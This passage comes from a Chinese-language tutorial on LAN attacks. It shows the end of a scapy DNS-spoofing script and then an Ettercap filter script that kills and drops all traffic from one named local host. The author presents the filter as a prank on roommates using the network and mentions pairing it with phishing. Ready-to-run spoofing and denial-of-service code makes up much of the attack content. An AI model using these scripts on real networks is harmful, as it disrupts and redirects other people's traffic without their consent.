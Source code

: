 ```bash
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

### Ettercap的包过滤：

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　![img](../../../../#ImageAssets/270035332621747-1573358989635.png)

　　在该目录下的etter.filter.examples文件里写了一些常用的过滤脚本:

　　![img](../../../../#ImageAssets/270040148247495-1573358989635.png)

　　当然,更多使用说明可以查看一下man 手册: man etterfilter.里面对所有的过滤使用的函数都有详细的说明.下面举例:

#### (1)  kill掉某一主机:

　　当你在心致勃勃地看片的时候,后面几个2b正在猛LOL,搞得看片跟看PPT一样,这个时候你是不是很不爽?是不是想揍他们一顿?好吧.我只想做一个安静的美男子,是时候kill他们了. 使用的过滤脚本为etter.filter.kill,如下:



```bash
 if (ip.src == '10.0.0.16') {
      # sent the RST to both source and dest
      kill();
      # don't even forward the packet
      drop();
      msg("HaHa! a 2b(ip:10.0.0.16) has killed...\n");
 }
```

　　编译成ettercap可以识别的二进制的二进制文件:

![img](../../../../#ImageAssets/270059583712014-1573358989636.png)

　　使用ettercap加载此脚本(-q 安静模式,即不显示数据包信息):

![img](../../../../#ImageAssets/270103310909127-1573358989636.png)

　　可以看到执行的效果:

![img](../../../../#ImageAssets/270105101064311-1573358989636.png)
